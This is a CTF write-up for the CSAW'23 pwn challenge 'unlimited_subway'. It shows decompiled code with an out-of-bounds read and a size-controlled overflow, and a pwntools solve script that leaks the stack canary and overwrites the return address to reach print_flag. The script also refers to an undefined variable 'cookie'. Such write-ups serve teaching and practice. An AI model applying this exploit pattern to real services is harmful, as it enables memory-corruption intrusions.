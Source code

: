 # CSAW'23

## unlimited_subway

> 
> Imagine being able to ride the subway for free, forever.
>
>  Author: 079
>
> [`share.zip`](share.zip)

Tags: _pwn_

## Solution
For this challenge we get a `zip archive` containing a binary. First we check what properties the binary has. `PIE` is disabled meaning we can work with absolute addresses and don't need to have a leak to get the `image base`. Otherwise `NX` is enabled, so no shellcode on the stack, `canary` is used meaning we can't overflow and rewrite the `ret` address without leaking the stack canary first.

```bash
─$ checksec unlimited_subway
[*] '/home/ctf/unlimited_subway'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Next, lets have a look with `Ghidra` to see what the binary actually does. The main loop is short and easy. The menu is printed, we have the options to [F]ill account info, [V]iew account info or just to [E]xit.

```bash
=====================================
=                                   =
=       Subway Account System       =
=                                   =
=====================================
[F]ill account info
[V]iew account info
[E]xit
```

If we fill the account info, we can read 64 bytes to `local_88`, there's nothing too exciting here. Viewing the account info, on the other hand, does no bounds check and lets us read from whatever memory region we have read access to. This is great, since we can leak this, for instance the stack canary this way if we need to overflow the stack.

```c
  while( true ) {
    while( true ) {
      while( true ) {
        print_menu();
        read(0,&local_8a,2);
        if ((char)local_8a != 'F') break;
        printf("Data : ");
        read(0,&local_88,0x40);
      }
      if ((char)local_8a != 'V') break;
      printf("Index : ");
      __isoc99_scanf(&DAT_0804a0e9,&local_94);
      view_account(&local_88,local_94);
    }
    if ((char)local_8a == 'E') break;
    puts("Invalid choice");
  }
  printf("Name Size : ");
  __isoc99_scanf(&DAT_0804a0e9,&local_90);
  printf("Name : ");
  read(0,&local_48,local_90)
```

```c
void view_account(int param_1,int param_2)
{
  printf("Index %d : %02x\n",param_2,(uint)*(byte *)(param_1 + param_2));
  return;
}
```

Then there is a function `print_flag` which just calls `system("cat ./flag")` and obviously is our target. Since the function is not called anywhere we have to call it on our own. But how can we do this? 

If we go back to `main` we can see that, after exiting, we can enter a name. And since we also can specify the `size` parameter for `read` we have a overflow here where we can set the `ret` address on the stack to point to `print_flag`. To do this successfully we have to take care that the stack canary is kept intact and the buffer overflow is not detected. The plan is therefore to leak the canary first and then overflow and set the ret address.

Leaking the canary can be done byte by byte, by calling `View account info` with large offsets.

```python 
from pwn import *

p = remote("pwn.csaw.io", 7900)
e = ELF("./unlimited_subway", checksec=False)

canary = b""
offset = 120+8
for i in range(offset,offset+4):
    p.sendlineafter(b"> ", b"V")
    p.sendlineafter(b"Index ", f"{i}".encode())
    canary = p.recvline().split()[-1]+canary

canary = int(canary,16)
print(f"Canary {hex(canary)}")
```

After we have the canary we can build our buffer overflow payload.

```python
# exit
p.sendlineafter(b"> ", b"E")

payload = b""
payload = payload + b"A"*(0x48-2*4)
payload = payload + p32(cookie)
payload = payload + b"A"*4
payload = payload + p32(e.sym["print_flag"])

p.sendlineafter(b"Name Size :", str(len(payload)).encode())
p.sendlineafter(b"Name : ", payload)
p.interactive()
```

After we run the script against the service we get our flag.

```bash
$ python solve.py
[+] Opening connection to pwn.csaw.io on port 7900: Done
Canary 0xd6be8900
[*] Switching to interactive mode
csawctf{my_n4m3_15_079_4nd_1m_601n6_70_h0p_7h3_7urn571l3}
```

Flag `csawctf{my_n4m3_15_079_4nd_1m_601n6_70_h0p_7h3_7urn571l3}`